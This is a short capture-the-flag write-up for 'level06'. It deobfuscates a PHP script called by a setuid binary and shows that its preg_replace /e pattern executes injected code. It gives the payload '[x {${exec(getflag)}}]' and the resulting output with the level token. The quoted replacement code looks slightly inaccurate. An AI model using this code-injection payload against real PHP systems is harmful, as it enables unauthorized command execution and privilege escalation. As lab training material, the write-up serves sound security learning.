 # level06 solution
Given setuid binary which calls php script with provided arguments. If we take a look at provided php script we will find out that it was obusficated, but we can easily deobusficate it via online service and get:

    <?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
    ?>

This php script reads the content of provided file and replace some symbols with preg_replace. First preg_replace function entry in x function is matching any number of any symbols inside round brackets of expression '[x ()]' which is unsafe/ We can abuse that by running this script on file with content that match this pattern:

    [x {${exec(getflag)}}]

Anything put inside inner curly brackets will be executed by php script. If we provide file to setuid binary with such content we will get token for the next level:

    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
